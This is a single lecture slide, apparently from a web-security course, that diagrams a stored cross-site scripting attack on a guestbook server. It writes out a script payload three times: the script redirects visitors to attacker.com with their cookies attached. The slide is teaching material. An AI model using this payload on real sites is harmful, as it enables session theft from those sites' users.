

# Stored XSS - Example
Guestbook
server
Benign user
Database
Get all entries

<script>window.location = “http://attacker.com?cookie=” + document.cookie; </script>
<script>window.location = “http://attacker.com?cookie=” + document.cookie; </script>
Secret cookies
Add entry:
<script>window.location = “http://attacker.com?cookie=” + document.cookie; </script>
Malicious user
Attacker.com